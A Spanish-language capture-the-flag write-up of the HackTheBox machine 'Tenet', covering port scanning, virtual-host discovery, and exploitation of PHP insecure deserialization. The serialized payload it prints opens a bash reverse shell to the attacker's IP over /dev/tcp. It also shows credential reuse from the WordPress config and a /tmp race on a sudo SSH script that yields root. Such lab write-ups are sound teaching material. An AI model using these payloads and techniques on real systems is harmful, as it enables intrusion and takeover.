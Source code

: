 ```yaml
---
title: "HackTheBox - Tenet"
layout: single
excerpt: Este es el "Write-Up" de la máquina **Tenet** de la plataforma HackTheBox, esta máquina me pareció muy interesante basándonos en los ataques que hay que realizar para su intrusión, la escalada de privilegios me gusto bastante...
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/121809015-65fb7280-cc5b-11eb-99dc-a0521d0cdfec.jpg"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/121809015-65fb7280-cc5b-11eb-99dc-a0521d0cdfec.jpg"
categories:
  - HackTheBox
tags:
  - WriteUp
---
```


![ErxsGc5XMAI16Pr](https://user-images.githubusercontent.com/69093629/121810273-78c47600-cc60-11eb-85ce-f1d17b56af90.jpg)

Empece haciendo un escaneo con *Nmap* de los puertos y servicios que tiene abiertos la máquina.

```bash 
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sS --min-rate=5000 -p- -v -Pn -n 10.10.10.223 -oG allPorts
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-13 15:15 CEST
Initiating SYN Stealth Scan at 15:15
Scanning 10.10.10.223 [65535 ports]
Discovered open port 22/tcp on 10.10.10.223
Discovered open port 80/tcp on 10.10.10.223
Completed SYN Stealth Scan at 15:16, 13.01s elapsed (65535 total ports)
Nmap scan report for 10.10.10.223
Host is up (0.087s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.16 seconds
           Raw packets sent: 65595 (2.886MB) | Rcvd: 65535 (2.621MB)
``` 

Tiene dos puertos abiertos, el primero de SSH y el segundo es un servidor web que corre por su puerto predeterminado, hice otro escaneo para ver la versión de cada servicio.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sC -sV -p22,80 10.10.10.223 -oN targeted                  
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-13 15:16 CEST
Nmap scan report for tenet.htb (10.10.10.223)
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.6
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Tenet
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.00 seconds
```

**Nmap** me reporto que estaba frente a un **WordPress**, quise verificar eso, para ello utilice "WhatWeb".

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ whatweb http://10.10.10.223/                                                                                   
http://10.10.10.223/ [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.223], Title[Apache2 Ubuntu Default Page: It works]
```

"WhatWeb" no me lo reporto pero efectivamente estaba ante un WordPress, eso me llamo la atención, mire que es lo que había en el servidor web.

![Captura de pantalla (551)](https://user-images.githubusercontent.com/69093629/121888429-437b5f00-cd18-11eb-8fbc-6124a90535a7.png)

Al parecer se estaba aplicando "Virtual Hosting" y no estába apuntando al dominio que tiene alojado el host, mire el código fuente y **tenet.htb** es el dominio desde el que estaba apuntando el host.

![Captura de pantalla (552)](https://user-images.githubusercontent.com/69093629/121809327-ac9d9c80-cc5c-11eb-86ec-86d08fb0ff60.png)

Simplemente lo incluí en */etc/hosts* para que apunte al host y poder ver lo que tenía.

![Captura de pantalla (553)](https://user-images.githubusercontent.com/69093629/121809395-e53d7600-cc5c-11eb-96a8-f48f9f4990ba.png)

Ahora si pude ver lo que contenía realmente.

![Captura de pantalla (554)](https://user-images.githubusercontent.com/69093629/121809429-09995280-cc5d-11eb-8196-1d61333f3fbc.png)

Encontré un usuario potencial.

![Captura de pantalla (556)](https://user-images.githubusercontent.com/69093629/121810092-b5dc3880-cc5f-11eb-9c75-65a03d80cc77.png)

Quise probarlo en WordPress, ya que te permite la enumeración de usuarios.

![Captura de pantalla (557)](https://user-images.githubusercontent.com/69093629/121810121-d73d2480-cc5f-11eb-8d43-8f2577c303a7.png)

El usuario era válido, pensé en hacer fuerza bruta, pero quería indagar más en la página, también vi este comentario que me llamo mucho la atención.

![Captura de pantalla (525)](https://user-images.githubusercontent.com/69093629/121810193-1ec3b080-cc60-11eb-9e2b-5cf7e51df2ec.png)

Probando distintas cosas, llegue a dar con la conclusión de que **sator** es un subdominio de **tenet.htb**, lo incluí en el */etc/hosts*.

![Captura de pantalla (558)](https://user-images.githubusercontent.com/69093629/121810525-84fd0300-cc61-11eb-9ae0-81f2499e2876.png)

En el comentario también mencionaba algo de PHP junto a sator, probé a unirlos y ver si era una archivo PHP, al parecer si lo era, esto es lo que tenía.

![Captura de pantalla (559)](https://user-images.githubusercontent.com/69093629/121810575-c097cd00-cc61-11eb-9343-1315250f0b4e.png)

El comentario hablaba de un "backup", por lo que me dio por probar añadir un **.bak** al archivo **sator.php** y me descargo un archivo.

![Captura de pantalla (560)](https://user-images.githubusercontent.com/69093629/121810801-7cf19300-cc62-11eb-8b51-214000faa57a.png)

Le hice un cat para ver su contenido.

![Captura de pantalla (561)](https://user-images.githubusercontent.com/69093629/121810890-c4781f00-cc62-11eb-858a-9d3d04939eb0.png)

Al parecer era el código fuente de **sator.php**, esto me iba a permitir plantear más bien el siguiente paso de la intrusión, el código lo que hace es recibir un input desde el parámetro arepo y lo deserializa, esto era un ataque de deserializacion insegura por *PHP* como una casa, ahora lo que tenía que hacer es crear el código malicioso serializado para que en la deserializacion ejecute mi sentencia maliciosa en *PHP*, en este caso una reverse shell por netcat.

Este es el código PHP que utilice para la serialización.

```php
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ php --interactive
php > class DatabaseExport {
php > public $user_file = 'shell.php';
php > public $data = '<?php shell_exec("bash -c \'bash -i >& /dev/tcp/10.10.16.5/443 0>&1\'"); ?>'; }
php > print urlencode(serialize(new DatabaseExport));
```

Una vez serializado lo introduje en el input de "arepo" (**http://10.10.10.223/sator.php?arepo={code_serialize}**)

![Captura de pantalla (562)](https://user-images.githubusercontent.com/69093629/121811486-d8248500-cc64-11eb-8952-d1bb204c05f7.png)

Y me otorgo una shell por netcat.

![Captura de pantalla (563)](https://user-images.githubusercontent.com/69093629/121811527-fe4a2500-cc64-11eb-9b57-35ba4ddc8005.png)

Hice un tratamiento de la TTY e intenté visualizar la "flag" de "user" pero no tenía permisos, me tenía que convertir en el usuario neil.

![Captura de pantalla (568)](https://user-images.githubusercontent.com/69093629/121811909-330aac00-cc66-11eb-8df0-6212cfa8fb17.png)

Recordé que estaba tratando con un WordPress, así que busque y visualice su archivo de configuración que contiene la contraseña.

![Captura de pantalla (566)](https://user-images.githubusercontent.com/69093629/121811799-c2638f80-cc65-11eb-8424-6a3229250d21.png)

Probé a autenticarme como neil y funciono.

![Captura de pantalla (567)](https://user-images.githubusercontent.com/69093629/121811843-f048d400-cc65-11eb-8cd8-69c4e0a8808c.png)

Visualice la "flag", ahora solo faltaba la escalada de privilegios, hice un ```sudo -l``` para ver si se podía ejecutar algo como el usuario ROOT y me encontré un script.

![Captura de pantalla (569)](https://user-images.githubusercontent.com/69093629/121812543-867df980-cc68-11eb-8464-ef7c9e43149e.png)

Le hice un "cat" a la ruta absoluta con ```xargs``` para ver que es lo que hacía.

![Captura de pantalla (570)](https://user-images.githubusercontent.com/69093629/121812621-cba22b80-cc68-11eb-9977-c543435c1d0d.png)

Lo que hace el script es crear una clave **id_rsa.pub** y alojarla en */tmp/ssh-{**XXXXX**}->*(**caracteres aleatorios**) y luego copia el contenido del archivo en **known_hosts**. Si tenemos la capacidad de incluir nuestra clave publica en */tmp* antes de que se copie a **known_hosts** podremos iniciar en SSH como el usuario ROOT. Para ello hice uso del siguiente comando en una ventana autenticado en SSH como el usuario neil.

```bash
neil@tenet~$ while true; do echo "{SSH_PUBLIC} | tee /tmp/ssh* > /dev/null; done"
```

![Captura de pantalla (571)](https://user-images.githubusercontent.com/69093629/121813113-eaa1bd00-cc6a-11eb-8235-9326d8776daf.png)

Y en otra ventana con SSH como el usuario neil le di permisos de ejecución al script y lo ejecute recursivamente unas cuantas veces.

![Captura de pantalla (572)](https://user-images.githubusercontent.com/69093629/121813150-03aa6e00-cc6b-11eb-8d89-c1c7fb70cb0c.png)

```bash
neil@tenet~$ sudo ./usr/local/bin/enableSSH.sh
```

y...

![Captura de pantalla (573)](https://user-images.githubusercontent.com/69093629/121813339-e1fdb680-cc6b-11eb-8add-2755686ea960.jpg)



